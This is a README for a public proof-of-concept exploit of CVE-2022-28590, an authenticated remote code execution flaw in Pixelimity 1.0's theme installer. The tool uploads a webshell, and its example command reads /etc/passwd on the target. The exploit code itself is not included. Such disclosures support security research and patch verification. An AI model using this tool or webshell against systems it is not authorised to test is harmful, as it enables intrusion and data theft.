

# CVE-2022-28590
The original discovery and manual PoC is from [tuando243](https://github.com/pixelimity/pixelimity/issues/24):

A Remote Code Execution (RCE) vulnerability exists in Pixelimity 1.0 via admin/admin-ajax.php?action=install_theme.

This PoC uploads a simple webshell for further remote code execution. This exploit expects from the server that system() function is allowed, otherwise some previous recon must be done in order to detect which function allows execution other than system.


# Installation

```bash
git clone https://github.com/jcarabantes/CVE-2022-28590.git
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt

python CVE-2022-28590.py -h
```


# Quick usage
```bash

python CVE-2022-28590.py -h

  ___  _  _  ____     ___   ___  ___   ___      ___   ___  ___  ___   ___  
 / __)( \/ )( ___)___(__ \ / _ \(__ \ (__ \ ___(__ \ ( _ )| __)/ _ \ / _ \ 
( (__  \  /  )__)(___)/ _/( (_) )/ _/  / _/(___)/ _/ / _ \|__ \_  /( (_) )
 \___)  \/  (____)   (____)\___/(____)(____)   (____)\___/(___/ (_/  \___/ 

                                     Vulnerability discovered by tuando243
                                                 PoC author: @javicarabantes
usage: CVE-2022-28590.py [-h] [-d] [-q] --url URL --user USER [--password PASSWORD] [-c COMMAND]

optional arguments:
  -h, --help           show this help message and exit
  -d                   Debug output
  -q                   Do not print the banner
  --url URL            url: https://server:8081/
  --user USER          admin user
  --password PASSWORD  admin password
  -c COMMAND           Command to execute. Default: id


python CVE-2022-28590.py --url http://localhost:8082 --user myuser -c "cat /etc/passwd"
```

